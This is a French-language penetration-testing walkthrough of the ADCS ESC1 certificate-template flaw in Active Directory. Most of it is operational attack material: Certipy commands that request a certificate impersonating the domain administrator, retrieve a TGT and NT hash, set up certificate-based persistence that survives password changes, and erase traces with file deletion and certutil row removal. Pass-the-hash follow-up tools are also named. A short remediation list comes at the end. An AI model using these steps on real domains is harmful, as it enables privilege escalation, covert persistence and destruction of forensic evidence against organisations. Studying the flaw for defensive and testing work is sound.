

## Flux d'exploitation ESC1

Le processus d'exploitation de la vulnérabilité ESC1 repose sur l'abus de la configuration d'un modèle de certificat pour usurper une identité privilégiée.



## Définition ESC1

ESC1 est une vulnérabilité identifiée dans les modèles de certificats (**certificate templates**) au sein des **Active Directory Certificate Services** (**ADCS**). Elle survient lorsqu'un modèle de certificat autorise un utilisateur à spécifier un **Subject Alternative Name** (**SAN**) arbitraire tout en étant configuré pour l'usage **Client Authentication**.

> [!info] Contexte
> Cette configuration permet à un utilisateur authentifié de demander un certificat identifiant n'importe quel autre utilisateur, tel que `administrator@domain.local`, sans validation côté serveur.

> [!danger] Prérequis : Accès initial en tant qu'utilisateur authentifié
> L'exploitation nécessite un accès valide au domaine pour interroger les services de certificats.

> [!warning] Condition critique : Le template doit autoriser l'enrôlement par l'utilisateur
> L'utilisateur attaquant doit disposer des droits **Enroll** sur le modèle de certificat ciblé.

## Analyse des permissions ACL sur les templates (ADSI/PowerView)

Avant l'exploitation, il est crucial d'analyser les permissions effectives sur les objets de type `certificateTemplate` dans la partition de configuration de l'AD.

L'utilisation de **PowerView** permet d'identifier les droits d'écriture (WriteOwner, WriteDacl, WriteProperty) qui pourraient permettre une escalade de privilèges sur le template lui-même :

```powershell
# Lister les permissions sur un template spécifique
Get-DomainObjectAcl -Identity "ESC1-Test" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "Write"}
```

Si l'énumération via **Certipy** est limitée, l'utilisation d'**ADSI** permet une inspection granulaire des attributs `msPKI-Certificate-Name-Flag` et `pKIExtendedKeyUsage` :

```powershell
$template = [ADSI]"LDAP://CN=ESC1-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local"
$template.msPKI-Certificate-Name-Flag
```

## Détection avec Certipy

L'outil **Certipy** permet d'énumérer les modèles de certificats vulnérables au sein de l'infrastructure **ADCS**.

### Commande de recherche

```bash
certipy find -u USER@DOMAIN -p PASSWORD -dc-ip <DC-IP> -vulnerable
```

### Analyse des résultats

Un modèle est considéré comme vulnérable si les conditions suivantes sont réunies :

| Attribut | Valeur requise |
| :--- | :--- |
| **SubjectAltName** | Enabled |
| **Enrollment Rights** | Yes |
| **Extended Key Usage** | Client Authentication |

Exemple de sortie :

```text
Template Name         : ESC1-Test
SubjectAltName        : Enabled
Enrollment Rights     : Yes
Extended Key Usage    : Client Authentication
```

> [!tip] Toujours vérifier les droits d'écriture sur le template (WriteOwner/WriteDacl)
> Si l'utilisateur n'a pas les droits **Enroll**, il est possible de vérifier si des droits de modification sur l'ACL du template permettent d'ajouter ces permissions.

## Exploitation

L'exploitation consiste à demander un certificat en falsifiant l'attribut **UPN** pour usurper l'identité d'un compte privilégié.

### Génération du certificat

```bash
certipy req -u john@corp.local -p Passw0rd \
-ca corp-DC-CA -target ca.corp.local -template ESC1-Test \
-upn administrator@corp.local -dns dc.corp.local
```

> [!danger] Danger : Risque de blocage du compte si trop de requêtes échouées
> Des tentatives répétées avec des paramètres incorrects peuvent déclencher des alertes de sécurité ou verrouiller le compte utilisateur.

### Authentification

Une fois le fichier `.pfx` obtenu, l'authentification permet d'obtenir un **TGT** ou le hash **NTLM** de la cible.

```bash
certipy auth -pfx administrator_dc.pfx -dc-ip 172.16.126.128
```

En cas de présence de plusieurs identités dans le certificat, la sélection de l'**UPN** est requise :

```text
[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@corp.local'
    [1] DNS Host Name: 'dc.corp.local'
```

## Techniques de persistence via certificat

Une fois l'accès administrateur obtenu, il est possible d'assurer une persistance discrète en émettant un certificat pour un compte de service ou un utilisateur légitime, permettant une authentification sans mot de passe (via **Active Directory Certificate Services**).

```bash
# Demander un certificat pour un utilisateur cible avec une durée de validité étendue
certipy req -u target_user -p 'password' -template User -upn target_user@corp.local -key-size 4096
```

Le certificat généré peut être stocké et réutilisé ultérieurement avec `certipy auth` pour obtenir un TGT, contournant ainsi les changements de mots de passe périodiques.

## Nettoyage des traces (suppression des certificats émis)

Pour limiter les traces forensiques, il est recommandé de supprimer les certificats émis si l'accès au serveur CA est possible, ou de purger les fichiers locaux :

```bash
# Suppression des fichiers locaux
rm *.pfx *.key

# Si accès au serveur CA, suppression des requêtes en attente ou émises (via certutil)
certutil -deleterow <RequestID>
```

## Post-exploitation

Après une authentification réussie, le hash **NTLM** de l'utilisateur usurpé est récupéré :

```text
[*] Got NT hash for 'administrator@corp.local': aad3b435b51404eeaad3b435b51404ee:36a50f712629962b3d5a3641529187b0
```

Ce hash peut être utilisé pour des techniques de **Pass-the-Hash** via **Evil-WinRM**, **Mimikatz** ou **secretsdump.py**. Ces méthodes permettent d'approfondir l'énumération **ADCS Enumeration** ou d'étudier les vecteurs de **Kerberos Delegation**.

## Remédiation

La sécurisation des services **ADCS** repose sur les mesures suivantes :

- Désactiver l'option **SubjectAltName** sur tous les modèles de certificats non critiques.
- Restreindre les permissions **Enroll** aux seuls groupes d'utilisateurs ou de machines légitimes.
- Désactiver l'usage **Client Authentication** pour les modèles accessibles par des utilisateurs standards.